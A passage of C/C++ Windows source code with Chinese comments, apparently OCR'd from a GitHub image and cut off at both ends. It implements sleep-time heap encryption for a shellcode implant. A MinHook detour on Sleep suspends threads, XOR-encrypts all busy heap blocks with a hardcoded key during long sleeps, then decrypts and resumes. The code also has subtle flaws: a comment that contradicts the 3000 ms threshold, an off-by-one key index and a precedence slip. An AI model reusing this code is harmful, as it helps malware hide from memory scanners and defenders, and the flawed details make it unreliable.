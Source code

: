 ```bash
                }
                th.dwSize = sizeof(th);
            } while (Thread32Next(h, &th));
        }
        CloseHandle(h);
    }
}
void xor_bidirectional_encode(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j > sKeySize) {
            j = 0;
        }
        pShellcode[i] = pShellcode[i] ^ bKey[j % 8] + 1;


    }
}
const char key[] = "DWADWADWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASADSADSADSADAS";
size_t keySize = sizeof(key);

PROCESS_HEAP_ENTRY entry;
void Stackencryption() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(GetProcessHeap(), &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            xor_bidirectional_encode((PBYTE)(entry.lpData), entry.cbData, (PBYTE)key, keySize);
        }
    }
}

void(WINAPI* SleepTest)(DWORD dwMiliseconds);
//Hook Sleep 函数
void WINAPI HookedSleep(DWORD dwMiliseconds) {
    DWORD time = dwMiliseconds;
    if (time > 3000) { //如果时间大于 1 秒的话
        //首先挂起线程
        PendingThread(GetCurrentProcessId(), GetCurrentThreadId());
        //加密
        Stackencryption();

        SleepTest(dwMiliseconds);
        //进行解密
        Stackencryption();
        //然后恢复挂起的线程
        RestoreThreads(GetCurrentProcessId(), GetCurrentThreadId());
    }
    else {
        SleepTest(time);
    }
}
template <typename T>
inline MH_STATUS MH_CreateHookEx(LPVOID pTarget, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHook(pTarget, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
}

template <typename T>
inline MH_STATUS MH_CreateHookApiEx(
    LPCWSTR pszModule, LPCSTR pszProcName, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHookApi(
        pszModule, pszProcName, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
```